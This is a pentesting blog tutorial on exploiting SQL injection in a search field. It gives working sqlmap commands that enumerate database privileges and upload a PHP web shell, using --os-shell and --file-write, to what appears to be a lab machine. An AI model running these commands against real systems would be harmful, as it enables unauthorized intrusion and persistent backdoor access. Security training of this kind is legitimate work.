 ```yaml
---
title: Upload Web Shell with SQLmap
author: Udesh
date: 2020-04-09
categories: [Pentesting]
tags: shell
---
```


Here in this tutorial, I will show you how to upload a web shell using SQLmap. furthermore, we can use this step to get the reverse shell.  

## Find SQL injection point

First, we need to check our web application is vulnerable to SQL injection. here my web application has a search field. 

![1.PNG]({{site.baseurl}}/assets/img/post/post2/1.PNG)

I used burp tool to capture web application requests. This application has a function that will query the database when given the product name `"productName= "`, and it returns some information. I put `'` into the `productName=` parameter it will give some SQL error message from the webserver. now we can understand our web application is vulnerable to SQL injection.

![2.PNG]({{site.baseurl}}/assets/img/post/post2/2.PNG)

## Recon with Sqlmap

Now suppose that we found a SQL injection vulnerability from our web application. We can move on sqlmap. first, we need to identify what are the information that we can help with our attack. example collecting the user name of the current database, the permissions of the current database user, the absolute path of the website and other information.

The sqlmap command to view the current database user is as follows:
```bash
sqlmap -u "http://10.10.10.167/search_products.php" --data "productName=*" --dbms "mysql" --current-user
```
From the picture we can know that the user of the current database is `manager@localhost`
![3.PNG]({{site.baseurl}}/assets/img/post/post2/3.PNG)

The sqlmap command to view database user permissions is as follows:
```bash
sqlmap -u "http://10.10.10.167/search_products.php" --data "productName=*" --dbms "mysql" --privileges
```
Search from the content returned by sqlmap, the corresponding permissions of the root user, from the following figure we can see that the manager user has file permissions:

![4.PNG]({{site.baseurl}}/assets/img/post/post2/4.PNG)

## Upload Files with Sqlmap

**Step 1:**

sqlmap allows user to upload subsequent web backdoors. in this step we are gointo use `--os-shell` command to upload the web shell.

Enter the following command in the terminal, sqlmap will let us choose the settings:

```bash
sqlmap -u "http://10.10.10.167/search_products.php" --data "productName=*" --dbms "mysql" --dbs --os-shell
```
As shown in the figure below, here we have to choose script language selection [4] PHP and use for writable directory [4] Brute force search. if you know the absolute directory path use [2]. so here I used [2] because my dir path is `C:\inetpub\wwwroot\`

![5.PNG]({{site.baseurl}}/assets/img/post/post2/5.PNG)

![6.PNG]({{site.baseurl}}/assets/img/post/post2/6.PNG)

finally we can see something interesting: a backdoor and file stager were successfully uploaded on http://10.10.10.169/tmpuzbio.php

so all we have to do is go to the URL it gives us in the browser. When we do that, we are greeted by a file uploader:

![7.PNG]({{site.baseurl}}/assets/img/post/post2/7.PNG)

**step 2:**

In this step, we are going to use the file write method for uploading our web shell.

We can write a file by entering the following command:

Note: `--file-write`is the absolute path stored by the physical machine webshell; `--file-dest` is the absolute path written to the target machine;

```bash
sqlmap -u "http://10.10.10.167/search_products.php" --data "productName=*" --dbms "mysql"  --dbs --file-write=/home/ukmihiran/Desktop/w.php --file-dest=C:/inetpub/wwwroot/w.php --batch
```
From the prompt message of sqlmap below, we can see that we have successfully written to the webshell.

![8.PNG]({{site.baseurl}}/assets/img/post/post2/8.PNG)

then open your browser and go to the URL

![9.PNG]({{site.baseurl}}/assets/img/post/post2/9.PNG)

it gives us interactive web shell. 😎
